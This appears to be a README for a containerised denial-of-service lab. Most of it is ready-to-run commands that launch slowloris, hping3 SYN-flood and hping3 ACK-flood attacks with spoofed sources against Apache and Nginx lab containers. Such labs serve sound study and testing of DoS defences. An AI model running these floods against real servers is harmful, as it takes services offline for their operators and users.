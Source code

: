 
# build images and run containers

```bash
docker-compose -f stack.yml up -d --build
```
# stop and remove containers   

```bash
docker-compose -f stack.yml down
```

# --------------------------------------------------------------------------- #
#                               HTTP flood attack                             # 
# --------------------------------------------------------------------------- #

# Launch the slowloris(slow HTTP GET attack) attack against the apache-server

```bash
docker exec -ti attacker-DDOS /bin/bash -c "slowloris 172.20.0.2 -s 1000"
```

# Launch the slowloris(slow HTTP GET attack) attack against the nginx-server

```bash
docker exec -ti attacker-DDOS /bin/bash -c "slowloris 172.20.0.3 -s 1000"
```
# --------------------------------------------------------------------------- #
#                               SYN flood attack                              # 
# --------------------------------------------------------------------------- #

# Launch the SYN flood attack against the apache-server

```bash
docker exec -ti attacker-DDOS /bin/bash -c "hping3 -S -c 100000 -d 1000 -p 80 --flood  --rand-source 172.20.0.2"
```

# Launch the SYN flood attack against the nginx-server

```bash
docker exec -ti attacker-DDOS /bin/bash -c "hping3 -S -c 100000 -d 1000 -p 80 --flood  --rand-source 172.20.0.3"
```

# --------------------------------------------------------------------------- #
#                               ACK flood attack                              # 
# --------------------------------------------------------------------------- #

# Launch the ACK flood attack against the apache-server

```bash
docker exec -ti attacker-DDOS /bin/bash -c "hping3 -A -c 100000 -d 1000 -p 80 --flood  --rand-source 172.20.0.2"
```

# Launch the ACK flood attack against the nginx-server

```bash
docker exec -ti attacker-DDOS /bin/bash -c "hping3 -A -c 100000 -d 1000 -p 80 --flood  --rand-source 172.20.0.3"
```

 